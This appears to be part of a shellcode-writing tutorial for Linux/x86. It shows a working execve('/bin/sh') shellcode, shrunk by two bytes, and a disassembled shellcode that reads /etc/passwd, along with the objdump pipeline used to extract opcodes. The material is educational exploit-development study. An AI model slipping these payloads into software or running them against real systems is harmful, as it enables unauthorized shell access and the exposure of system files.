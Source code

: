 Retrieving the opcodes:

	objdump -d ./shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
	"\xeb\x09\x5b\x31\xc0\x99\x91\xb0\x0b\xcd\x80\xe8\xf2\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"

Original version:
	
	"\xEB\x0B\x5B\x31\xC0\x31\xC9\x31\xD2\xB0\x0B\xCD\x80\xE8\xF0\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68"

Modified:

	"\xEB\x09\x5B\x31\xC0\x99\x91\xB0\x0B\xCD\x80\xE8\xF2\xFF\xFF\xFF\x2F\x62\x69\x6E\x2F\x73\x68"

This is **2 bytes smaller**! Bonus points ya'll o/.

# Shellcode 2: Linux/x86 - File Reader /etc/passwd - 65 bytes
The original version can be found [here](http://shell-storm.org/shellcode/files/shellcode-73.php). Also uses JMP/CALL/POP.

I converted it to Intel syntax (can't stand AT&T, ugh):

	objdump -D -M intel test

```
    2040:	31 c0                	xor    eax,eax
    2042:	31 db                	xor    ebx,ebx
    2044:	31 c9                	xor    ecx,ecx
    2046:	31 d2                	xor    edx,edx
    2048:	eb 32                	jmp    207c <buf+0x3c>
    204a:	5b                   	pop    ebx
    204b:	b0 05                	mov    al,0x5
    204d:	31 c9                	xor    ecx,ecx
    204f:	cd 80                	int    0x80
    2051:	89 c6                	mov    esi,eax
    2053:	eb 06                	jmp    205b <buf+0x1b>
    2055:	b0 01                	mov    al,0x1
    2057:	31 db                	xor    ebx,ebx
    2059:	cd 80                	int    0x80
    205b:	89 f3                	mov    ebx,esi
    205d:	b0 03                	mov    al,0x3
    205f:	83 ec 01             	sub    esp,0x1
    2062:	8d 0c 24             	lea    ecx,[esp]
    2065:	b2 01                	mov    dl,0x1
    2067:	cd 80                	int    0x80
    2069:	31 db                	xor    ebx,ebx
    206b:	39 c3                	cmp    ebx,eax
    206d:	74 e6                	je     2055 <buf+0x15>
    206f:	b0 04                	mov    al,0x4
    2071:	b3 01                	mov    bl,0x1
    2073:	b2 01                	mov    dl,0x1
    2075:	cd 80                	int    0x80
    2077:	83 c4 01             	add    esp,0x1
    207a:	eb df                	jmp    205b <buf+0x1b>
    207c:	e8 c9 ff ff ff       	call   204a <buf+0xa>
    2081:	2f                   	das    
    2082:	65 74 63             	gs je  20e8 <__TMC_END__+0x58>
    2085:	2f                   	das    
    2086:	70 61                	jo     20e9 <__TMC_END__+0x59>
    2088:	73 73                	jae    20fd <__TMC_END__+0x6d>
    208a:	77 64                	ja     20f0 <__TMC_END__+0x60>
```
